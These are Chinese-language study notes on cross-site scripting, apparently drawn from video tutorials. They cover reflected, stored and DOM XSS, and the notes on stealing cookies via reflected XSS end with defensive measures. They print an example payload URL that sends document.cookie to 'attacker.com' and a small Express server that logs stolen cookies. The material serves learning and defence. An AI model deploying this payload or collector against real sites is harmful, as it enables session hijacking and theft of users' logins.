 # [1. XSS网络攻击，原理，类型和实践](https://www.bilibili.com/video/BV1rg411v7B8/?spm_id_from=333.337.search-card.all.click&vd_source=a7089a0e007e4167b4a61ef53acc6f7e)

> 跨站脚本攻击

| 1.反射型xss攻击：一般是利用网页的检索功能                    |                                                              |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| <img src="07 XSS攻击.assets/image-20240730203437689.png" alt="image-20240730203437689"  /> | ![image-20240730205701828](07 XSS攻击.assets/image-20240730205701828.png) |

https://xss-game.appspot.com/level1/frame

| <img src="07 XSS攻击.assets/image-20240730211134332.png" alt="image-20240730211134332"  /> | <img src="07 XSS攻击.assets/image-20240730213001959.png" alt="image-20240730213001959" style="zoom:50%;" /> |
| ------------------------------------------------------------ | ------------------------------------------------------------ |

| 2.存储型xss攻击：                                            |                                                              |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| ![image-20240730213203282](07 XSS攻击.assets/image-20240730213203282.png) | ![image-20240730213244447](07 XSS攻击.assets/image-20240730213244447.png) |
| 3.DOM型xss攻击                                               |                                                              |
| ![image-20240730213500822](07 XSS攻击.assets/image-20240730213500822.png) | ![image-20240730213622841](07 XSS攻击.assets/image-20240730213622841.png) |
| ![image-20240730213751520](07 XSS攻击.assets/image-20240730213751520.png) |                                                              |

# [1. XSS跨站脚本分类](https://www.bilibili.com/video/BV1ZR4y1V7GN/?spm_id_from=333.337.search-card.all.click&vd_source=a7089a0e007e4167b4a61ef53acc6f7e)

> Cross-Site Scripting 跨站脚本攻击
>
> scripting：脚本语言，脚本撰写，脚本处理

![image-20240730215854717](07 XSS攻击.assets/image-20240730215854717.png)

<img src="07 XSS攻击.assets/image-20240730220139675.png" alt="image-20240730220139675" style="zoom:67%;" />

## 1.1 反射型XSS

![image-20240730225028286](07 XSS攻击.assets/image-20240730225028286.png)

# [2. 反射XSS盗取Cookie](https://www.bilibili.com/video/BV1ZR4y1V7GN/?p=2&spm_id_from=pageDriver&vd_source=a7089a0e007e4167b4a61ef53acc6f7e)

## 2.1 cookie介绍

<img src="07 XSS攻击.assets/image-20240731092401699.png" alt="image-20240731092401699" style="zoom:50%;" />

## 2.2 反射XSS盗取cookie

反射型XSS（Cross-Site Scripting）攻击是一种常见的网络攻击方式，攻击者利用网页的漏洞将恶意脚本注入到网页中，并使得这个脚本在用户浏览器中执行，从而窃取用户的敏感信息，例如 cookie。以下是如何利用反射型XSS盗取 cookie 的一般步骤：

### 1. **了解反射型 XSS**

**反射型 XSS 攻击发生在攻击者将恶意脚本嵌入到请求中，服务器将该请求的内容原样返回并嵌入到响应中。用户浏览器执行这些恶意脚本，从而泄露敏感信息或执行其他恶意操作**。

### 2. **构造恶意请求**

攻击者需要构造一个恶意 URL 或请求，将恶意脚本注入到请求中。例如，如果一个网站存在反射型 XSS 漏洞，用户的请求中的参数值被直接插入到 HTML 中，攻击者可以利用这种漏洞。

#### 示例恶意 URL

假设某个网站的 URL 参数被直接插入到 HTML 中：

```html
<p>Hello, <span id="user">USER_NAME</span>!</p>
```

攻击者可以构造如下 URL 来注入恶意脚本：

```plaintext
http://example.com/?name=<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>
```

在这种情况下，当受害者访问上述 URL 时，浏览器会执行注入的 JavaScript 代码，将用户的 cookie 发送到攻击者控制的服务器。

### 3. **处理并拦截 cookie**

攻击者需要设置一个恶意服务器来接收被盗取的 cookie。这个服务器可能只是一个简单的服务器，记录收到的请求。

#### 示例恶意服务器（使用 Node.js 和 Express）

```javascript
const express = require('express');
const app = express();

app.get('/steal', (req, res) => {
  // 记录被盗取的 cookie
  console.log('Cookie stolen:', req.query.cookie);
  res.send('Cookie stolen');
});

app.listen(3000, () => {
  console.log('Listening on port 3000');
});
```

### 4. **防范措施**

为防止 XSS 攻击，网站开发者应采取以下措施：

1. **输入验证和清理**：
   - 过滤和清理用户输入，确保没有恶意脚本被注入到页面中。
   
2. **输出编码**：
   - 对动态内容进行适当的 HTML 编码，例如，使用函数 `encodeURIComponent` 来处理 URL 参数，以避免插入恶意代码。

3. **使用 CSP（Content Security Policy）**：
   - 实施内容安全策略，限制可以在页面中执行的脚本来源，从而减少 XSS 攻击的风险。

4. **HttpOnly 和 Secure Cookie 标志**：
   - 对敏感 cookie 设置 `HttpOnly` 和 `Secure` 标志，防止客户端 JavaScript 访问 cookie。

5. **跨站请求伪造（CSRF）保护**：
   - 使用 CSRF 令牌来防止未经授权的请求。

### 总结

反射型 XSS 攻击通过将恶意脚本注入到网站中，从而盗取用户的 cookie。防范此类攻击需要确保输入和输出的安全性，实施适当的安全措施，例如 CSP、HttpOnly 和 Secure 标志等。了解如何防范 XSS 攻击是确保网站安全的关键。

## 2.3 利用cookie会话劫持

## 2.4 劫持会话后的操作









































